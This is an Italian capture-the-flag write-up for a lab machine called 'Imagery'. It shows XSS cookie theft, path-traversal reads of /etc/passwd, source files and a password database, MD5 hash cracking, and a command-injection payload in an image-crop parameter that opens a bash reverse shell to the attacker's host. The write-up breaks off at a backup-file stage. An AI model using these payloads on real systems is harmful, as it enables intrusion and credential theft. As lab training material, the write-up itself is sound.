










# Imagery


## Recon

```bash

$ nmap -p- --min-rate 1000 10.x.x.x             

PORT     STATE SERVICE;
22/tcp   open  ssh
8000/tcp open  http-alt

```

```bash

$ nmap -p22,8000 -sCV 10.x.x.x

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

La scansione ha rilevato la presenza di un servizio web sulla porta **8000**.

## Web App Analysis


Ci si registra ed accede come **user@imagery.htb:user**.



La web app offre la funzionalita' di **upload** di immagini.



Ed inoltre la possibilita' di **report** dei **bugs**.



Si fa un test per il report dei bug.



Quindi i report vengono visionati dall'**Admin**.

## XSS

Si prova un **XSS** per catturare i **cookie** di sessione dell'utente **Admin**.

```text


```



Si avvia un server python in ascolto sulla porta 9001 e si invia il report.

```bash

$ python3 -m http.server 9001

10.x.x.x - - [29/Sep/2025 13:17:55] "GET /session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU HTTP/1.1" 404 -

```

Funziona!

## Login as Admin

Si utilizza il cookie di sessione catturato e si accede al **Admin Panel**.



E' possibile accedere ai file di log per gli utenti registrati anche se ispezionandoli non si sono trovate informazioni rilevanti.

Si nota che l'URL per scaricare ai file di log e' il seguente:

```text

GET http://10.x.x.x:8000/admin/get_system_log?log_identifier=admin@imagery.htb.log

```

Questo fa pensare ad una possibile **Local File Inclusion (LFI)**.

## LFI

Si tenta una LFI per accedere alle risorse del server, come il file **/etc/passwd**.

```bash

$ curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../../../../etc/passwd' \
	-H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
	-H 'Priority: u=0, i'

```

```text

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
usbmux:x:100:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:103:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:104:104::/nonexistent:/usr/sbin/nologin
uuidd:x:105:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:106:107::/nonexistent:/usr/sbin/nologin
tss:x:107:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:108:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
web:x:1001:1001::/home/web:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
snapd-range-524288-root:x:524288:524288::/nonexistent:/usr/bin/false
snap_daemon:x:584788:584788::/nonexistent:/usr/bin/false
mark:x:1002:1002::/home/mark:/bin/bash
_laurel:x:101:988::/var/log/laurel:/bin/false
dhcpcd:x:110:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false

```

Funziona!

Gli utenti che possono accedere alla shell sono:

- web
- mark

Si induce l'api in errore accedendo ad un file privilegiato come **/etc/shadow**.

```bash

$ curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../../../../etc/shadow' \
        -H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
        -H 'Priority: u=0, i'
{"message":"Error reading file: [Errno 13] Permission denied: '/home/web/web/system_logs/../../../../etc/shadow'","success":false}

```

Dall'errore si ottiene **absolute path** della directory di lavoro.

Si tenta di accedere ai file dell'applicazione, come **app.py**.

```bash

$ curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../app.py' \             
        -H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
        -H 'Priority: u=0, i' 
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc

app_core = Flask(__name__)
app_core.secret_key = os.urandom(24).hex()
app_core.config['SESSION_COOKIE_HTTPONLY'] = False

app_core.register_blueprint(bp_auth)
app_core.register_blueprint(bp_upload)
app_core.register_blueprint(bp_manage)
app_core.register_blueprint(bp_edit)
app_core.register_blueprint(bp_admin)
app_core.register_blueprint(bp_misc)

@app_core.route('/')
def main_dashboard():
    return render_template('index.html')

if __name__ == '__main__':
    current_database_data = _load_data()
    default_collections = ['My Images', 'Unsorted', 'Converted', 'Transformed']
    existing_collection_names_in_database = {g['name'] for g in current_database_data.get('image_collections', [])}
    for collection_to_add in default_collections:
        if collection_to_add not in existing_collection_names_in_database:
            current_database_data.setdefault('image_collections', []).append({'name': collection_to_add})
    _save_data(current_database_data)
    for user_entry in current_database_data.get('users', []):
        user_log_file_path = os.path.join(SYSTEM_LOG_FOLDER, f"{user_entry['username']}.log")
        if not os.path.exists(user_log_file_path):
            with open(user_log_file_path, 'w') as f:
                f.write(f"[{datetime.now().isoformat()}] Log file created for {user_entry['username']}.\n")
    port = int(os.environ.get("PORT", 8000))
    if port in BLOCKED_APP_PORTS:
        print(f"Port {port} is blocked for security reasons. Please choose another port.")
        sys.exit(1)
    app_core.run(debug=False, host='0.0.0.0', port=port)

```

## Source Code Analysis

Si scaricano gli altri file dell'applicazione seguendo i **file importati** in **app.py**.

```bash

$ files=(app.py config.py utils.py api_auth.py api_upload.py api_manage.py api_edit.py api_admin.py api_misc.py)

$ for file in $files; \
do curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../'$file \
        -H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
        -H 'Priority: u=0, i' | tee $file; \
done

```

Nel file **config.py** viene specificato il filename **db.json**.

```text

DATA_STORE_PATH = 'db.json'

```

Lo si scarica e ispeziona.

```bash

$ curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../db.json' \  
        -H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
        -H 'Priority: u=0, i' | tee db.json
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
    "images": [],
    "image_collections": [
        {
            "name": "My Images"
        },
        {
            "name": "Unsorted"
        },
        {
            "name": "Converted"
        },
        {
            "name": "Transformed"
        }
    ],
    "bug_reports": []
}

```

Nel file sono presenti le credenziali di **admin** e **testuser**.

## Crack The Passwords

Si tenta il cracking del valore di hash delle passwords, calcolato con MD5. 

```bash

$ hashcat -a 0 -m 0 pass.md5 /usr/share/wordlists/rockyou.txt.gz --show
2c65c8d7bfbca32a3ed42596192384f6:iambatman

```

Si ottengono le credenziali **testuser:iambatman**.


L'utente **testuser** ha la possibilita' di gestire gli **Image Groups**.



Si continua l'analisi del codice sorgente della web app. 

Tra i diversi file **api_\*** attira particolarmente l'attenzione il file **api_edit.py**.

```python

from flask import Blueprint, request, jsonify, session
from config import *
import os
import uuid
import subprocess
from datetime import datetime
from utils import _load_data, _save_data, _hash_password, _log_event, _generate_display_id, _sanitize_input, get_file_mimetype, _calculate_file_md5

bp_edit = Blueprint('bp_edit', __name__)

@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    # ...
    if transform_type == 'crop':
        x = str(params.get('x'))
        y = str(params.get('y'))
        width = str(params.get('width'))
        height = str(params.get('height'))
        command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
        subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
    # ...

# somethings...
```

Il **testuser** puo' accedere a funzionalita' avanzate per la manipolazione dell'immagine.

Le modifiche vengono fatte cone il tool **Image Magick**.

Si utilizza **subprocess** per lanciare un comando da shell.

Il problema di questa implementazione e' che l'input dell'utente non viene validato e si utilizzano le format string per costruire il comando da eseguire con la shell.

Questo fa pensare alla possibilita' di sfruttare l'operazione di **cropping** per iniettare codice arbitrario, quindi si parla di **Remote Code Execution (RCE)**.

## RCE

Prima di tutto si carica un'immagine dal profilo **testuser**.



Si esegue una **crop** per l'immagine caricata.





Si utilizza Burpsuite per sfruttare la vulnerabilita' e far eseguire una **reverse shell** dalla macchina vittima.

```text

POST /apply_visual_transform HTTP/1.1
Host: 10.x.x.x:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.x.x.x:8000/
Content-Type: application/json
Content-Length: 217
Origin: http://10.x.x.x:8000
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aNrtig.HOGNhtVAElEJQqfwNkCR8Uqw7bE
Priority: u=0

{"imageId":"e8fd94ae-dac9-4dfe-8640-737545c0a6d8","transformType":"crop","params":{"x":0,"y":"0 ./e8fd94ae-dac9-4dfe-8640-737545c0a6d8.png; $(/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1') # ","width":4156,"height":2771}}

```

Il payload e' stato aggiunto al parametro **y** per eseguire una **reverse shell** sulla macchina Kali in ascolto alla porta 9001.

```text

0 ./e8fd94ae-dac9-4dfe-8640-737545c0a6d8.png; $(/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1') #

```

```bash

$ nc -lvnp 9001

web@Imagery:~/web$ id
uid=1001(web) gid=1001(web) groups=1001(web)

```

Funziona!

## Analyzing the Target Machine as web

Si procede con l'analisi tramite **LinPEAS**, dalla quale si nota la presenza di un file in **/var/backup/**.

```text

drwxr-xr-x 2 root root 4096 Sep 22 18:56 /var/backup
total 22516

-rw-rw-r-- 1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes   

```

Si scarica e analizza il file **web_20250806_120723.zip.aes** sulla macchina Kali.

```bash

$ file *
web_20250806_120723.zip.aes: AES encrypted data, version 2, created by "pyAesCrypt 6.1.1"

```

> **pyAesCrypt** is a Python 3 file-encryption module and script that uses AES256-CBC to encrypt/decrypt files and binary streams.
>
> Source: [https://libraries.io/pypi/pyAesCrypt](https://libraries.io/pypi/pyAesCrypt)

